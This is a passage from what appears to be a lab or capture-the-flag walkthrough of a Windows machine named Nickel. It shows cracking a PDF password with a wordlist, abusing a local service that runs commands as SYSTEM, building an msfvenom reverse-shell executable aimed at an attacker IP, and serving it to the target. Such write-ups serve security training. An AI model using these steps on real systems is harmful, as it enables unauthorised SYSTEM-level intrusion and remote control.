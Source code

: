 Downloaded the file and tried to open it, however it’s locked with password.

```bash
┌──(root💀kali)-[/opt/generic]
└─# pdfcrack ~/nick/Infrastructure.pdf -w /usr/share/wordlists/rockyou.txt                                               6 ⨯
PDF version 1.7
Security Handler: Standard
V: 2
R: 3
P: -1060
Length: 128
Encrypted Metadata: True
FileID: 14350d814f7c974db9234e3e719e360b
U: 6aa1a24681b93038947f76796470dbb100000000000000000000000000000000
O: d9363dc61ac080ac4b9dad4f036888567a2d468a6703faf6216af1eb307921b0
Average Speed: 98215.8 w/s. Current Word: 'breaxx'
Average Speed: 96516.4 w/s. Current Word: 'seshy16'
Average Speed: 96277.8 w/s. Current Word: 'mantisoy'
Average Speed: 98903.3 w/s. Current Word: 'graciel098'
Average Speed: 97724.6 w/s. Current Word: 'bbone'
found user-password: 'ariah4168'
```

I cracked the password with pdfcrack.

![info.png](Nickel%20cff91a47fb794eae8107f3436b0f1748/info.png)

The pdf contains some internal service information.

```bash
ariah@NICKEL C:\Users\ariah>curl http://localhost/?whoami
<!doctype html><html><body>dev-api started at 2023-02-17T09:16:22

        <pre>nt authority\system
</pre>
</body></html>
```

This service is run by the administrator and execute any command.

```bash
┌──(root💀kali)-[/opt/generic]
└─# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.169 LPORT=443 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
                                                                                                                             
┌──(root💀kali)-[/opt/generic]
└─# python3 -m http.server 80                                                              
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.249.99 - - [08/Oct/2023 02:12:54] "GET /shell.exe HTTP/1.1" 200 -
```
